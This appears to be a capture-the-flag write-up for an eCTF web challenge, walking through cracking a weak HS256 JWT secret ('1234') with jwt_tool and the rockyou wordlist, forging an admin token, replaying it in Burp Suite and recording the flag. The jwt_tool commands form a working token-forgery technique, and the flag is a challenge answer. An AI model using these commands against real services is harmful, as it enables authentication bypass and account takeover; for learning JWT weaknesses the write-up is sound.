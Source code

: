 **Challenge Name: Java Weak Token**    

**Description:**  
The admin has stored a flag in the admin section, but he let you access the page since he has secured the access to it. Maybe you should show him why using a weak secret isn't a good idea 🙂.  

Deploy the instance here to play: [https://instances.ectf.fr/](https://instances.ectf.fr/)  

**Flag format:** ectf{.....}  

---

**Challenge Files/Instance:**  
[Instance](http://instances.ectf.fr:24082/)  

---

**Solution:**  
1. Tried editing the JWT token and changing the user to `admin`.  
2. Submitting the modified token fails.  
3. Attempted to crack the JWT secret using `jwt_tool` and a wordlist (`rockyou.txt`).  

```bash
python3 jwt_tool.py --crack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJleHAiOjE3Mzg0Nzg2NjV9.eIDJENArei1f2Febvqwc7FM074_9FHBnl3v2HLroN2A -d /usr/share/wordlists/rockyou.txt  
```

4. Successfully cracked the JWT secret: `1234`.  
5. Used `jwt_tool.py` to modify the username to `admin` and resign the token.  

```bash
python3 jwt_tool.py -S hs256 -p "1234" -I eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM4NDc4NzE2fQ.DBwZQJ7ih7cA0lPnkqy9ePnYKWW-EnY21YW4HF_evQ0  
```

6. Sent the modified token in a request using Burp Suite.  

![Burp](Resources/image1.png)  

7. Successfully accessed the admin panel and retrieved the flag.  

**Flag:**  
ectf{JwT_T0keN_cR34t0r}

